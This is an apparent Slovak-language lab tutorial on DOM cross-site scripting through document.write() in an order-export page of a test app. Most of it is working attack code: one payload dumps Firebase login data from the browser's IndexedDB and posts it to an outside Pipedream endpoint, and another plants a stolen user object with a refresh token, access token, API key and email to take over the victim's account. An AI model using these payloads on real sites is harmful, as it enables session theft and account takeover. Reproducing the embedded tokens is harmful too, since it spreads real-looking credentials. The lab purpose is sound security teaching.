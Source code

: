 # Document objcet model cross site scripting (DOM XSS)
## document.write()

- Teraz si predstavime DOM (Document pbject model) XSS (Cross site scripting) na priklade vygenerovania exportu objednavky do novohe tabu pomocou metody document.write()
- Metoda document.write() prepisuje celu kostru stranky a generuje novu pomocou argumentu vlozeneho do metody. Tymto sposobom sa daju jednoducho a automatizovane generovat nove stranky alebo upravovat uz existujuce
- Problem nastava ked sa do argumentu vlozi vratane roznych tagov aj skodlivy kod. Skodlivy kod je priamo vlozeny do tela stranky.
- Ako mozeme vidiet v testovacom prostredi, tak mame input kam zapisujeme nazov exportu nasej objednavky a tlacidlo na vygenerovanie exportu.
- Ako prve sa presunieme na podstranku produktov a vlozime lubovolne produkty do kosika
- Ked mame kosik naplneny produktmi mozeme zmenit alebo ponechat nazov exportu a kliknut na tlacidlo “Export”
- Vygeneoval sa nam jednoduchy export objednavky na novom tabe. Ako mozeme vidiet nazov exportu je vypisany ako nadpis nad jednotlivymi polozkami kosika. Hodnota z inputu je priamo vlozene do tela novej stranky cim vznika zranitelnost a priestor na vlozenie skodliveho kodu
- Zopakujme si proces generovania exportu ale teraz vlozime skodlivy kod do inputu pre nazov
- Vlozme nasledovny uryvok kodu do inputu

        const request = window.indexedDB.open("firebaseLocalStorageDb");
        request.onsuccess = (event) => {
          const db = event.target.result;

          const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
          const objectStore = transaction.objectStore("firebaseLocalStorage");

          const getDataRequest = objectStore.getAll();

          getDataRequest.onsuccess = (event) => {

          const headers = new Headers();
          headers.append("Content-Type", "text/plain");

          const options = {
            method: "POST",
            headers,
            mode: "cors",
            body: JSON.stringify(event.target.result),
          };

          fetch("https://eojph9o2kgja7k2.m.pipedream.net", options);
          }
        };
- Ukazkovy kod spristupni lokalnu databazu prehliadaca (indexDb), ktoru sutentifikacny servis FirebaseAuth vyuziva na uchovavanie dat o prihlasenom pouzivatelovi. Vytiahneme data z databazy a cely objekt si odosleme na nas vygenerovany endpoint v sluzbe Pipedream.
- Po vygenerovani exportu mozeme vidiet, ze nazov exportu je prazdny a spustil sa nas kod. Na endpoint by nam mal prist cely uset objekt s datami.
- Odhlasime sa z aplikacie a prihlaisme sa pod inym uctom, bud existujucim alebo si vytvorime novy
- Po prihlaseni vyuzijeme spominanu zranitelnost znova a vlozime do lokalnej databazy data uzivatela, cim prelomime autentifikaciu a prihlasime sa do uctu obete
- Kod na vlozenie pouzivatelskych dat vyzera nasledovne

            const request = window.indexedDB.open("firebaseLocalStorageDb");
            request.onsuccess = (event) => {
              const db = event.target.result;

              const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
              const objectStore = transaction.objectStore("firebaseLocalStorage");

              const data = {
                fbase_key:
                  "firebase:authUser:AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg:[DEFAULT]",
                value: {
                  uid: "RTejhfCWw0OAlHcoAj41Fy93ZJJ3",
                  email: "mate@gmail.com",
                  emailVerified: false,
                  isAnonymous: false,
                  providerData: [
                    {
                      providerId: "password",
                      uid: "mate@gmail.com",
                      displayName: null,
                      email: "mate@gmail.com",
                      phoneNumber: null,
                      photoURL: null,
                    },
                  ],
                  stsTokenManager: {
                    refreshToken:
                      "AMf-vByIsfsiw-8vT6jzvFkIqMjZhSvTzJ16dCdww3w_Pk_9kwwfanAaW09W-DWc70KzKjxtp7Dq7aEPRImKkgLIHiCN4ROLsi5NBpvQrRSNGonNI-5wt_
                        9PHITM0bt5ZXSayEMzx7dRUHJdj8-lbwiflyUREJh3TUy-QLmoxyg3rY-G6B1Ff1OQPTv-VRFJGmp3GQ2dJ5Bl0hyBKiELNwcjKDTrVyRjPw",
                    accessToken:
                      "eyJhbGciOiJSUzI1NiIsImtpZCI6ImJhNjI1OTZmNTJmNTJlZDQ0MDQ5Mzk2YmU3ZGYzNGQyYzY0ZjQ1M2UiLCJ0eXAiOiJKV1QifQ
          .eyJpc3MiOiJodHRwczovL3NlY3VyZXRva2VuLmdvb2dsZS5jb20vZGlwbG9tb3ZrYS10ZXN0LWFwcCIsImF1ZCI6ImRpcGxvbW92a2EtdGVzdC1hcHA
          iLCJhdXRoX3RpbWUiOjE3MTE3OTA0OTYsInVzZXJfaWQiOiJSVGVqaGZDV3cwT0FsSGNvQWo0MUZ5OTNaSkozIiwic3ViIjoiUlRlamhmQ1d3ME9BbE
          hjb0FqNDFGeTkzWkpKMyIsImlhdCI6MTcxMTc5MDQ5NiwiZXhwIjoxNzExNzk0MDk2LCJlbWFpbCI6Im1hdGVAZ21haWwuY29tIiwiZW1haWxfdmVyaWZ
          pZWQiOmZhbHNlLCJmaXJlYmFzZSI6eyJpZGVudGl0aWVzIjp7ImVtYWlsIjpbIm1hdGVAZ21haWwuY29tIl19LCJzaWduX2luX3Byb3ZpZGVyIjoicGFzc
          3dvcmQifX0.0Mp-T84dmzTpiAdVyhl68WV2qDvTZ78IHGYca5YpBgBx4A_m_YXoJ-IYBaTl-Yp-fXYzuKN3Vff0iqkNA5nVtUcOFfG1X157DrkE80gxp6e
          7ELg2jn_N6mF1Xw-jTSaJoAAsG8f3e_wHp-cfVqWyBNrcUTABrP8Hy_bv-iyUII60PZtjiu_oo7ObVFhoPEim82rlPJDLiwpPMos7qGEBsvw4-fKQvLPkR
          wkGbCf8bKt6Pn_jThtR9JPuhU_G2SlgppA0PuuLSyO8KViFoH4XgFMi9kyX3YU8vmg7O5bDwCYemLLpvQt4KY900_qQgxS2GnX89h_V-hNu_bGqQpL9Zg",
                    expirationTime: 1711794096425,
                  },
                  createdAt: "1711388904315",
                  lastLoginAt: "1711790496471",
                  apiKey: "AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg",
                  appName: "[DEFAULT]",
                },
              };

              objectStore.clear();

              const addDataRequest = objectStore.add(data);

              addDataRequest.onsuccess = (event) => alert("Success!");
            };
       
- Teraz mozeme refreshnut stranku a ako mozeme vidiet v hlavicke stranky alebo po kliku na profil, ze sme prihlaseny pod inym uctom, teda uctom obete